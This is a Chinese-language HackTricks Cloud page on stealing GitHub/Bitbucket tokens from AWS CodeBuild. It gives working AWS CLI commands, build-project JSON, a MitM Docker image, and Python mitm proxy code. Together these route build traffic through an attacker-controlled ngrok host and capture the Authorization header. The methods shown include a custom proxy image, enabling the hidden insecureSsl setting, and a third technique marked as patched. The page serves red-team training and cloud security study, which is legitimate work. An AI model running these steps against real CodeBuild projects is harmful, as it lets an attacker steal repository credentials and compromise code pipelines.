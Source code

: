 # AWS Codebuild - Token Leakage

{% hint style="success" %}
学习和实践 AWS 黑客技术：<img src="../../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">[**HackTricks 培训 AWS 红队专家 (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">\
学习和实践 GCP 黑客技术：<img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks 培训 GCP 红队专家 (GRTE)**<img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>支持 HackTricks</summary>

* 查看 [**订阅计划**](https://github.com/sponsors/carlospolop)!
* **加入** 💬 [**Discord 群组**](https://discord.gg/hRep4RUj7f) 或 [**Telegram 群组**](https://t.me/peass) 或 **在** **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)** 上关注我们。**
* **通过向** [**HackTricks**](https://github.com/carlospolop/hacktricks) 和 [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) GitHub 仓库提交 PR 分享黑客技巧。

</details>
{% endhint %}

## 恢复 Github/Bitbucket 配置的令牌

首先，检查是否配置了任何源凭据，以便您可以泄露：
```bash
aws codebuild list-source-credentials
```
### 通过 Docker 镜像

如果你发现例如 Github 的认证已在账户中设置，你可以通过让 Codebuild **使用特定的 docker 镜像** 来运行项目的构建，从而 **提取** 该 **访问** （**GH token 或 OAuth token**）。

为此，你可以 **创建一个新的 Codebuild 项目** 或更改现有项目的 **环境** 以设置 **Docker 镜像**。

你可以使用的 Docker 镜像是 [https://github.com/carlospolop/docker-mitm](https://github.com/carlospolop/docker-mitm)。这是一个非常基础的 Docker 镜像，将设置 **环境变量 `https_proxy`**、**`http_proxy`** 和 **`SSL_CERT_FILE`**。这将允许你拦截在 **`https_proxy`** 和 **`http_proxy`** 中指示的主机的大部分流量，并信任在 **`SSL_CERT_FILE`** 中指示的 SSL 证书。

1. **创建并上传你自己的 Docker MitM 镜像**
* 按照仓库的说明设置你的代理 IP 地址并设置你的 SSL 证书，然后 **构建 docker 镜像**。
* **不要设置 `http_proxy`** 以避免拦截对元数据端点的请求。
* 你可以使用 **`ngrok`**，例如 `ngrok tcp 4444` 来将代理设置为你的主机。
* 一旦你构建了 Docker 镜像，**将其上传到公共仓库**（Dockerhub, ECR...）。
2. **设置环境**
* 创建一个 **新的 Codebuild 项目** 或 **修改** 现有项目的环境。
* 设置项目使用 **之前生成的 Docker 镜像**。

<figure><img src="../../../../.gitbook/assets/image (23).png" alt=""><figcaption></figcaption></figure>

3. **在你的主机上设置 MitM 代理**

* 如 **Github 仓库** 中所示，你可以使用类似的东西：
```bash
mitmproxy --listen-port 4444  --allow-hosts "github.com"
```
{% hint style="success" %}
使用的 **mitmproxy 版本是 9.0.1**，据报道在版本 10 中这可能无法工作。
{% endhint %}

4. **运行构建并捕获凭证**

*   您可以在 **Authorization** 头中看到令牌：

<figure><img src="../../../../.gitbook/assets/image (273).png" alt=""><figcaption></figcaption></figure>

这也可以通过 aws cli 以类似的方式完成

{% code overflow="wrap" %}
```bash
# Create project using a Github connection
aws codebuild create-project --cli-input-json file:///tmp/buildspec.json

## With /tmp/buildspec.json
{
"name": "my-demo-project",
"source": {
"type": "GITHUB",
"location": "https://github.com/uname/repo",
"buildspec": "buildspec.yml"
},
"artifacts": {
"type": "NO_ARTIFACTS"
},
"environment": {
"type": "LINUX_CONTAINER", // Use "ARM_CONTAINER" to run docker-mitm ARM
"image": "docker.io/carlospolop/docker-mitm:v12",
"computeType": "BUILD_GENERAL1_SMALL",
"imagePullCredentialsType": "CODEBUILD"
}
}

## Json

# Start the build
aws codebuild start-build --project-name my-project2
```
{% endcode %}

### 通过不安全的SSL

**Codebuild** 项目有一个设置叫做 **`insecureSsl`**，这个设置在网页上是隐藏的，你只能通过API进行更改。\
启用此选项后，Codebuild可以连接到存储库 **而不检查** 平台提供的证书。

* 首先，你需要使用类似以下的命令来枚举当前配置：
```bash
aws codebuild batch-get-projects --name <proj-name>
```
* 然后，使用收集到的信息，您可以将项目设置 **`insecureSsl`** 更新为 **`True`**。以下是我更新项目的示例，请注意最后的 **`insecureSsl=True`**（这是您需要从收集的配置中更改的唯一内容）。
* 此外，还要添加环境变量 **http\_proxy** 和 **https\_proxy**，指向您的 tcp ngrok，如下所示： 

{% code overflow="wrap" %}
```bash
aws codebuild update-project --name <proj-name> \
--source '{
"type": "GITHUB",
"location": "https://github.com/carlospolop/404checker",
"gitCloneDepth": 1,
"gitSubmodulesConfig": {
"fetchSubmodules": false
},
"buildspec": "version: 0.2\n\nphases:\n  build:\n    commands:\n       - echo \"sad\"\n",
"auth": {
"type": "CODECONNECTIONS",
"resource": "arn:aws:codeconnections:eu-west-1:947247140022:connection/46cf78ac-7f60-4d7d-bf86-5011cfd3f4be"
},
"reportBuildStatus": false,
"insecureSsl": true
}' \
--environment '{
"type": "LINUX_CONTAINER",
"image": "aws/codebuild/standard:5.0",
"computeType": "BUILD_GENERAL1_SMALL",
"environmentVariables": [
{
"name": "http_proxy",
"value": "http://2.tcp.eu.ngrok.io:15027"
},
{
"name": "https_proxy",
"value": "https://2.tcp.eu.ngrok.io:15027"
}
]
}'
```
{% endcode %}

* 然后，在代理变量指向的端口（http\_proxy 和 https\_proxy）运行来自 [https://github.com/synchronizing/mitm](https://github.com/synchronizing/mitm) 的基本示例
```python
from mitm import MITM, protocol, middleware, crypto

mitm = MITM(
host="127.0.0.1",
port=4444,
protocols=[protocol.HTTP],
middlewares=[middleware.Log], # middleware.HTTPLog used for the example below.
certificate_authority = crypto.CertificateAuthority()
)
mitm.run()
```
* 最后，点击 **Build the project**，**凭证**将以 **明文**（base64）发送到 mitm 端口：

<figure><img src="../../../../.gitbook/assets/image.png" alt=""><figcaption></figcaption></figure>

### ~~通过 HTTP 协议~~

{% hint style="success" %}
**这个漏洞在 2023 年 2 月 20 日那一周的某个时候被 AWS 修复了（我想是星期五）。所以攻击者无法再利用它了 :)**
{% endhint %}

具有 **提升权限的攻击者在 CodeBuild 中可能会泄露配置的 Github/Bitbucket 令牌**，或者如果权限是通过 OAuth 配置的，则 **用于访问代码的临时 OAuth 令牌**。

* 攻击者可以将环境变量 **http\_proxy** 和 **https\_proxy** 添加到 CodeBuild 项目，指向他的机器（例如 `http://5.tcp.eu.ngrok.io:14972`）。

<figure><img src="../../../../.gitbook/assets/image (232).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../../../.gitbook/assets/image (213).png" alt=""><figcaption></figcaption></figure>

* 然后，将 github 仓库的 URL 更改为使用 HTTP 而不是 HTTPS，例如：`http://github.com/carlospolop-forks/TestActions`
* 然后，在代理变量（http\_proxy 和 https\_proxy）指向的端口上运行 [https://github.com/synchronizing/mitm](https://github.com/synchronizing/mitm) 的基本示例。
```python
from mitm import MITM, protocol, middleware, crypto

mitm = MITM(
host="127.0.0.1",
port=4444,
protocols=[protocol.HTTP],
middlewares=[middleware.Log], # middleware.HTTPLog used for the example below.
certificate_authority = crypto.CertificateAuthority()
)
mitm.run()
```
* 最后，点击 **Build the project**，**凭证**将以 **明文**（base64）发送到 mitm 端口：

<figure><img src="../../../../.gitbook/assets/image (159).png" alt=""><figcaption></figcaption></figure>

{% hint style="warning" %}
现在攻击者将能够从他的机器上使用令牌，列出它拥有的所有权限，并且比直接使用 CodeBuild 服务更容易（滥用）。
{% endhint %}

{% hint style="success" %}
学习和实践 AWS 黑客技术：<img src="../../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">\
学习和实践 GCP 黑客技术：<img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>支持 HackTricks</summary>

* 查看 [**订阅计划**](https://github.com/sponsors/carlospolop)!
* **加入** 💬 [**Discord 群组**](https://discord.gg/hRep4RUj7f) 或 [**telegram 群组**](https://t.me/peass) 或 **关注** 我们的 **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **通过向** [**HackTricks**](https://github.com/carlospolop/hacktricks) 和 [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github 仓库提交 PR 来分享黑客技巧。

</details>
{% endhint %}
